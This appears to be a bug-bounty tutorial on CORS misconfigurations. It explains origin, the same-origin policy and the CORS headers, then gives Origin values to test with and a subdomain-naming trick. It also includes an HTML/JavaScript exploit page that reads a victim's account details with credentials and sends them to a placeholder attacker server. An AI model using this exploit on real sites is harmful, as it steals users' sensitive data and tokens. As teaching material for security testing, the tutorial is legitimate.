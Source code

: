 ![CORS1](https://github.com/user-attachments/assets/457ed22a-aa36-4531-811b-5017ee324515)

The CORS vulnerability, which stands for Cross-origin resource sharing, is one of the most dangerous vulnerabilities, in the sense that an intruder can obtain various and sensitive information such as sessions and many other sensitive information; This vulnerability that will happen on the subject of modern browsers has a lot to do with SOP, which we will examine in the following SOP topic, but first you must to know origin.

**What is Origin?**
When you enter a site, for example Example.com, in this case you have entered the origin of the Example.com website.

**What is origin made of?**  
The Origin is composed of the combination of three elements Protocol, Host and Port, and if we change each of these three elements, we will have a new origin, which you will fully understand in the example below:

```http
http://example.com  
https://example.com  
http://en.example.com  
https://example.com:22
```

Normally, due to the existence of SOP, we cannot request Cross-Origin to any of these.

**What is SOP?**  
Servers are used to host web pages, applications, images, fonts, etc. Now, when you use a browser, you are trying to access a unique website. To load this website, the browser needs to send different requests to different servers. Servers located in different locations around the world. Now, the security policies of the servers are responsible for reducing the risks related to these requests/responses as much as possible. One of these policies is called same-origin.

The same-origin policy is very restrictive. According to this policy, a document hosted on server A can only communicate with documents hosted on the same server. This issue can be seen from the name of politics itself because same origin means a root or a lineage.

As you Know, not having a security policy can hurt the website, but having something like same-origin also limits us a lot.

Fortunately, there is another approach that gives us flexibility in addition to security. Cross-origin is one of these and came to solve SOP limitation, which is abbreviated as CORS.

**Trick:** 
We can bypass SOP with one XSS, if we have one XSS vulnerability we can access to DOM and bypass SOP easy.

**CORS Bug:**  
A request to a resource such as an image or font outside the original origin is called a cross-origin request. CORS stands for cross-origin resource sharing, which helps us manage cross-origin requests.

Since today’s websites load their resources through different places, it is very convenient to use CORS.

Servers that are going to run cross-origin requests must also be able to handle it. On the other hand, CORS gives servers the ability to configure verified origins. In the sense that only a series of origins can be referred.

In fact, working with CORS is more flexible because it gives us the ability to customize security items and create a unique security policy based on our needs.

**How does CORS handle requests from external sources?**  
The HTTP header is where it’s supposed to help us manage CORS. This header is sent with each request or response and contains different information each time. Using this header, you can define how requests and answers are sent. CORS adds a bunch of new options to HTTP headers to handle requests. Below you can see these items:

```http
Access-Control-Allow-Origin  
Access-Control-Allow-Credentials  
Access-Control-Allow-Methods  
Access-Control-Allow-Headers  
Access-Control-Expose-Headers  
Access-Control-Max-Age  
Access-Control-Request-Headers  
Access-Control-Request-Method
```

**How to find CORS bug?**  
First, we have to change the HTTP header origin in the HTTP request we send, and if the origin is not in the HTTP request, add it, and then send the request and check the response.  
now If there are **“Access-Control-Allow-Origin: */attacker.com”** and **“Access-Control-Allow-Credentials: True”** in the response, it can be assumed that There is a CORS bug, **and it means origin(attacker.com) can send request from him site and get response include important information** .

**Some parameter we can replace in origin:**  
1. null  
2. attacker.com  
3. example.com+attacker.com

**How to exploit CORS bug?**  
when you have found the CORS bug, you can exploit the vulnerability by starting a server and running the following commands on the server, and important information such as APK key, CSRF Tokens and other sensitive information using Get the implementation of a listener using the following script:

```html
<html>  
    <body>  
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="  
        <script>  
            var req = new XMLHttpRequest();  
            var url = 'APPLICATION URL'  
            req.onload = retrieveKeys;  
  
            req.open('GET', url + '/accountDetails', true);  
            req.withCredentials = true;  
            req.send(null);  
  
           function retrieveKeys() {  
               fetch('https://Exolit_Server_Hostname/log?key=' + req.responseText)  
            }  
        </script>"></iframe>  
    </body>  
</html>
```

Now attacker make one file named `exploit.html` and when victim load and open `attacker.com/exploit.html` with social engineering method, it can automatically loaded important data and save on server or send to attacker.

**One trick**  
Sometimes the site only allows its own Sub-Domain to make Cross-Origin requests, in this case we create a Sub-Domain with the name of the site and test with it. for example:

```
target:  
example.com  
  
my subdomain:  
example.com.mysite.com
```

**Finding CORS:**  
Always look for some sensitive data in response like account id, address, phone number, email, etc which can show some impact on business towards the organization.


GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)
